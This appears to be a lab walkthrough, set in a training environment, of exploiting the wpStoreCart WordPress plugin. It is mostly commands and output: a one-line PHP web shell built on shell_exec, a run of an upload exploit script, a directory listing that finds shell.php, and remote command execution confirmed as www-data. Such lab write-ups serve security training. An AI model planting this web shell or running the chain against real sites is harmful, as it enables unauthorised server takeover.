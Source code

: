 `vim ./shell.php`:
```php
<?php
$output = shell_exec($_GET["cmd"]);
echo "<pre>".$output."</pre>"
?>
```

`php -f ./wpstorecart_exploit.php`:
```
PHP Fatal error:  Uncaught Error: Call to undefined function curl_init() in /home/kali/wpstorecart_exploit.php:5
Stack trace:
#0 {main}
  thrown in /home/kali/wpstorecart_exploit.php on line 5
```
❌

`sudo apt install php-curl`

`php -f ./wpstorecart_exploit.php`

`curl -s https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/uploads/wpstorecart/ | htmlq`
```html
<html><head>
  <title>Index of /wp-content/uploads/wpstorecart</title>
 </head>
 <body>
<h1>Index of /wp-content/uploads/wpstorecart</h1>
  <table>
   <tbody><tr><th valign="top"><img alt="[ICO]" src="/icons/blank.gif"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"><img alt="[PARENTDIR]" src="/icons/back.gif"></td><td><a href="/wp-content/uploads/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"><img alt="[   ]" src="/icons/unknown.gif"></td><td><a href="shell.php">shell.php</a></td><td align="right">2024-11-28 14:52  </td><td align="right"> 75 </td><td>&nbsp;</td></tr> 📌
   <tr><th colspan="5"><hr></th></tr>
</tbody></table>
<address>Apache/2.4.7 (Ubuntu) Server at f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com Port 80</address>

</body></html>
```

`curl 'https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/uploads/wpstorecart/shell.php?cmd=id'`:
```html
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data) 🚩
</pre>
```
